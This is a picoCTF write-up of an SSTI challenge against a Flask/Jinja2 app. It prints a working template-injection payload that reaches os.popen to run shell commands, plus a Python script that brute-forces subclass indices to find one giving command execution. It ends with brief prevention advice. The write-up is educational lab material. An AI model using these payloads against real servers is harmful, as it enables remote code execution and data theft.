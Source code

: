 ```yaml
---
title: "SSTI-1 PICOCTF"
tags: [CTF, Cybersecurity, WEB, PICOCTF]
---
```


# SSTI 1 (Server Side Template Injection)

This challenge is vulnerable to a vulnerability called server-side template injection, which gives the attacker the ability to inject a malicious payload into a template which is then executed on the server-side.

![Home page](../images/ssti-1.png)

if we did send this ``{{7*7}}` payload as user input it will get executed on the server side.

![Response](../images/ssti-2.png)

It does not display `{{7*7}}` as plain text. Instead, the template engine executes it on the server, calculates the result, and returns 49.

Ok now we know that the server is vulnerable, so now let's identify which technology the server is using for example python or php ...

So to identify the server techonlogie let's read the heards of the response by using `curl -I <url>`

and headers are :

```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.8.10
Date: Thu, 08 May 2025 23:15:55 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 567
Connection: close
```

The Server: Werkzeug/3.0.3 Python/3.8.10 header confirms that the server is using Python with the Werkzeug WSGI server. This strongly suggests the backend is Flask, since Flask is built on Werkzeug.

Now, Flask uses Jinja2 as its default template engine

To extract the flag, we can craft a payload that takes advantage of Python’s object model and introspection features. By leveraging server-side template injection (SSTI), we can escape the sandbox and read the flag file using Python "gadgets":

```python
{{"".__class__.__base__.__subclasses__()[80].__init__.__globals__['sys'].modules['os'].popen('cat flag').read()}}
```
This payload navigates through Python’s class hierarchy to access the os module and execute a system command that reads the flag. The result is printed directly in the rendered template response.

Breakdown of the Payload

    "": Empty string object.

    .__class__: Gives <class 'str'>.

    .__base__: Gives <class 'object'>.

    .__subclasses__(): Lists all subclasses of object.

    [<index>]: We select a subclass that gives us access to __globals__.

    .__init__.__globals__: Accesses the global variables of that class’s constructor.

    ['sys']: Gets the sys module from globals.

    .modules['os']: Accesses the os module.

    .popen('cat flag'): Runs the shell command.

    .read(): Reads the result — the flag!

## How I Discovered the Right Gadget Subclass for the SSTI Exploit

To find a Python class with access to dangerous internals (like the sys module), I wrote a script to enumerate all subclasses of Python’s base object class, using Server-Side Template Injection (SSTI). Here's how it works:

```python

import requests
import html
import re

url = "ctf-url"
#This payload returns a list of all subclasses of the base Python #object class.
payload = "{{\"\".__class__.__base__.__subclasses__()}}"

#We send the payload to the vulnerable endpoint via a POST request.
r = requests.post(url, data={"content":payload})

#If the request is successful, we decode the HTML content and extract class names using regex.

if r.status_code == 200:
    html_content = r.text
    content_decoded = html.unescape(html_content)
    class_names = re.findall(r"<class '([^']+)'>", content_decoded)
    print(len(class_names))

    #For each subclass index, we craft a new payload to try to access __globals__['sys'] and run a shell command: cat flag.
    for i in range(0, len(class_names)):
        new_paload = "{{\"\".__class__.__base__.__subclasses__()["+ str(i) + "].__init__.__globals__['sys'].modules['os'].popen('cat flag').read()}}"
        #We send the new payload to the server.
         nr = requests.post(url, data={"content":new_paload})
         #If the response contains the flag, we print the result and stop the script.
        if nr.status_code == 200:
            print(nr.text)
            print("*"*20)
            #This is how we find the first subclass that gives us working access to Python internals, in this case: index 80.
            print("class name: ", class_names[i], "index: ", i)
            exit(0)
```
### Why This Was Vulnerable:
- No input sanitization before rendering templates.
- Lack of proper context escaping in the template engine.

### Prevention:
- Use a **safe template engine** that does not evaluate code or expressions.
- Sanitize inputs and avoid using user input in templates directly.

---

🎥 **Want to see this exploit in action?**

Check out the full walkthrough on my YouTube channel where I demonstrate this SSTI attack step-by-step:

👉 [Watch on YouTube](https://www.youtube.com/@yourchannel)  
🔔 Don’t forget to **like**, **subscribe**, and **turn on notifications** so you never miss a cybersecurity tutorial!

---